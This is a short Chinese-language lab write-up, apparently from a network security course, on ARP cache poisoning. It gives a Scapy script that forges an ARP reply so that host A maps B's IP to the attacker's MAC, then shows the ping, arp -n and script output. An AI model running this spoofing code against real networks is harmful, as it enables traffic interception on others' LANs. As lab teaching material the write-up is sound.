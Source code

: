 修改程序：

```python
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

eth = Ether(src=M_mac,dst=A_mac) 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=2) 

pkt = eth / arp 
sendp(pkt)
```

> Scenario 1: `B`’s IP is already in `A`’s cache.

首先，在 `B` 上 ping `A`：

```shell
B-10.9.0.6$ ping 10.9.0.5 -c 1
PING 10.9.0.5 (10.9.0.5) 56(84) bytes of data.
64 bytes from 10.9.0.5: icmp_seq=1 ttl=64 time=0.138 ms

--- 10.9.0.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.138/0.138/0.138/0.000 ms
```

此时，`A` 上看到：

```shell
A-10.9.0.5$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
```

然后运行：

```shell
M-10.9.0.105$ arp.py
.
Sent 1 packets.
```

抓包得到：

![arp3](/assets/post/images/arp3.webp)
